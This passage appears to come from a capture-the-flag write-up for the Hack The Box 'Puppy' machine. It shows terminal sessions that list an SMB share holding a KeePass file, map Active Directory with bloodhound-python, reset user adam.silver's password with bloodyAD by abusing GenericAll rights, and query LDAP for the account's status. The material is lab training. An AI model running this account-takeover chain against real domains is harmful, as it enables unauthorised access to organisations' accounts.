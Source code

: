 ```bash
┌──(mdn0x㉿mdn0xKali)-[~/HTB/Machines/Puppy]
└─$ smbclient  //10.10.11.70/DEV -U ant.edwards                   
Password for [WORKGROUP\ant.edwards]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                  DR        0  Sun Mar 23 08:07:57 2025
  ..                                  D        0  Sat Mar  8 17:52:57 2025
  KeePassXC-2.7.9-Win64.msi           A 34394112  Sun Mar 23 08:09:12 2025
  Projects                            D        0  Sat Mar  8 17:53:36 2025
  recovery.kdbx                       A     2677  Wed Mar 12 03:25:46 2025

                5080575 blocks of size 4096. 1617968 blocks available
```

We have the account that has been successfully verified: `ant.edwards`
## Bloodhound AGAIN

Now we can collect data on the new user:

```bash
┌──(mdn0x㉿mdn0xKali)-[~/HTB/Machines/Puppy]
└─$ bloodhound-python -u 'ant.edwards' -p '{{REDACTED_PASSWD}}'  -d puppy.htb -ns 10.10.11.70 -c All --zip
```

We can see  `ant.edwards` is group of `devs` which has `GenericAll` permissions on the user`adam.silver`, so we can change his password:

```bash
┌──(mdn0x㉿mdn0xKali)-[~/HTB/Machines/Puppy]
└─$ bloodyAD --host '10.10.11.70' -d 'dc.puppy.htb' -u 'ant.edwards' -p '{{REDACTED_PASSWD}}' set password ADAM.SILVER Hacker123456!
[+] Password changed successfully!
```

Although the changes here are successful, We still cannot log in. The reason is that the account is not enabled, we can check it out with `ldapsearch`:

```bash
┌──(mdn0x㉿mdn0xKali)-[~/HTB/Machines/Puppy]
└─$ ldapsearch -x -H ldap://10.10.11.70 -D "ANT.EDWARDS@PUPPY.HTB" -W -b "DC=puppy,DC=htb" "(sAMAccountName=ADAM.SILVER)"
Enter LDAP Password: 
# extended LDIF
#
# LDAPv3
# base <DC=puppy,DC=htb> with scope subtree
# filter: (sAMAccountName=ADAM.SILVER)
# requesting: ALL
#

# Adam D. Silver, Users, PUPPY.HTB
dn: CN=Adam D. Silver,CN=Users,DC=PUPPY,DC=HTB
objectClass: top
objectClass: person
objectClass: organizationalPerson
objectClass: user
cn: Adam D. Silver
sn: Silver
givenName: Adam
initials: D
distinguishedName: CN=Adam D. Silver,CN=Users,DC=PUPPY,DC=HTB
instanceType: 4
whenCreated: 20250219121623.0Z
whenChanged: 20250922192745.0Z
displayName: Adam D. Silver
```